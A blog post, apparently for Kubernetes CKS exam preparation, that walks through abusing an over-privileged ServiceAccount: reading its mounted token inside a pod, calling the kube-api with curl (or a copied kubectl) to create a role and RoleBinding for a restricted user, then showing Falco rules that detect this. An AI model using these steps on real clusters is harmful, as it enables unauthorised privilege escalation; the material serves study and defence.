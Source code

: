 ```yaml
---
title: "CKS preparation - abusing ServiceAccount to grant privileges"
date: 2021-02-03T06:00:00-04:00
last_modified_at: 2021-02-04
categories:
  - certifications
tags:
  - kubernetes
  - certifications
  - cks
comments: true
---
```


In this article I will show how Kubernetes ServiceAccount can used to gain
privileges. Of course, all this information should be only used for preparation
to CKS exam.

Let's say that we have a developer John, who has limited privileged in
namespace `frontend`:
```
$ kubectl -n frontend auth can-i list pods --as john
no
$ kubectl -n frontend auth can-i create pods --as john
no
$ kubectl -n frontend auth can-i create role --as john
no
```

But for debugging purposes, he was granted with "pod/exec" role. In `frontend`
namespace there is a `service` Pod, running under `service-sa` ServiceAccount,
which has permissions to create, modify or delete roles:
```YAML
apiVersion: v1
kind: ServiceAccount
metadata:
  name: service-sa
  namespace: frontend
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: service-role
  namespace: frontend
rules:
- apiGroups: ["rbac.authorization.k8s.io"]
  resources: ["*"]
  verbs: ["create","update","delete"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: service-binding
  namespace: frontend
subjects:
- kind: ServiceAccount
  name: service-sa
roleRef:
  kind: Role
  name: service-role
  apiGroup: rbac.authorization.k8s.io
```

Now, let's imagine that John wants to get more permissions. To do that, he has
logged into this pod. To interact with kube-api John has to install curl(I am
using alpine in the example):
```bash
apk add curl
```

Next step will be to find serviceAccount's token and kube-api endpoint:
```bash
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
export ENDPOINT=$KUBERNETES_SERVICE_HOST
export NAMESPACE=frontend
```

Knowing that, he ca create a new role via [API request](https://kubernetes.io/docs/reference/kubernetes-api/authorization-resources/role-v1/#create-create-a-role):
```YAML
# Create ROLE in namespace
curl -k  https://$ENDPOINT/apis/rbac.authorization.k8s.io/v1/namespaces/frontend/roles \
	-H "Authorization: Bearer $TOKEN" \
	-X POST --header 'content-type: application/json' \
	--data '
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "Role",
    "metadata": {
        "name": "infra-role",
        "namespace": "frontend"
    },
    "rules": [
        {
            "apiGroups": [
                "rbac.authorization.k8s.io"
            ],
            "resources": [
                "*"
            ],
            "verbs": [
                "create",
                "update",
                "delete"
            ]
        }
    ]
}'
```

and assign that role to his entity([API request](https://kubernetes.io/docs/reference/kubernetes-api/authorization-resources/role-binding-v1/#create-create-a-rolebinding)):
```YAML
# Create ROLEBINDING in namespace
curl -k  https://$ENDPOINT/apis/rbac.authorization.k8s.io/v1/namespaces/frontend/rolebindings \
	-H "Authorization: Bearer $TOKEN" \
	-X POST --header 'content-type: application/json' \
	--data '
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "infra-binding",
        "namespace": "frontend"
    },
    "roleRef": {
        "apiGroup": "rbac.authorization.k8s.io",
        "kind": "Role",
        "name": "infra-role"
    },
    "subjects": [
        {
            "apiGroup": "rbac.authorization.k8s.io",
            "kind": "User",
            "name": "john"
        }
    ]
}'
```

Since service account has permissions to create new roles and RoleBindings,
new permissions were granted to John:
```bash
$ kubectl -n frontend auth can-i create role --as john
yes
```

As a Cluster Administrator, it's not easy to find such activities. [Falco](https://falco.org/)
is a great tool that can monitor your cluster and report on all user actions.

It comes with a [default set of rules](https://github.com/falcosecurity/charts/blob/master/falco/rules/k8s_audit_rules.yaml),
which would generate alerts on John's actions:
```YAML
- rule: Attach/Exec Pod
  desc: >
    Detect any attempt to attach/exec to a pod
  condition: kevt_started and pod_subresource and kcreate and ka.target.subresource in (exec,attach) and not user_known_exec_pod_activities
  output: Attach/Exec to pod (user=%ka.user.name pod=%ka.target.name ns=%ka.target.namespace action=%ka.target.subresource command=%ka.uri.param[command])
  priority: NOTICE
  source: k8s_audit
  tags: [k8s]
- rule: K8s Role/Clusterrole Created
  desc: Detect any attempt to create a cluster role/role
  condition: (kactivity and kcreate and (clusterrole or role) and response_successful)
  output: K8s Cluster Role Created (user=%ka.user.name role=%ka.target.name rules=%ka.req.role.rules resp=%ka.response.code decision=%ka.auth.decision reason=%ka.auth.reason)
  priority: INFO
  source: k8s_audit
  tags: [k8s]
- rule: K8s Role/Clusterrolebinding Created
  desc: Detect any attempt to create a clusterrolebinding
  condition: (kactivity and kcreate and clusterrolebinding and response_successful)
  output: K8s Cluster Role Binding Created (user=%ka.user.name binding=%ka.target.name subjects=%ka.req.binding.subjects role=%ka.req.binding.role resp=%ka.response.code decision=%ka.auth.decision reason=%ka.auth.reason)
  priority: INFO
  source: k8s_audit
  tags: [k8s]
```

## Update

My colleague provide me with an even simpler way to do this - using kubectl
inside the cluster:

John could copy kubectl to the Pod:
```bash
$ kubectl cp $(which kubectl) pod-with-service-account:/ -n frontend
```

Once it's there, it's possible to use it to do all kind of manipulations with
kubernetes entities:
```bash
# /kubectl --namespace=frontend create role podview  --verb=get --verb=list   --resource=pods
role.rbac.authorization.k8s.io/podview created
```

If `kubectl` can't find $KUBECONFIG, it will use in-cluster configuration to work
with kube-api:
```
# /kubectl cluster-info -v=10
I0203 11:55:51.542573     193 merged_client_builder.go:121] Using in-cluster configuration
I0203 11:55:51.543028     193 merged_client_builder.go:121] Using in-cluster configuration
```

[According to documentation](https://github.com/kubernetes/client-go/blob/master/examples/in-cluster-client-configuration/README.md#authenticating-inside-the-cluster)
to client-go(and kubectl is using client-go):
```
client-go uses the Service Account token mounted inside the Pod at the
/var/run/secrets/kubernetes.io/serviceaccount path when the
rest.InClusterConfig() is used.
```
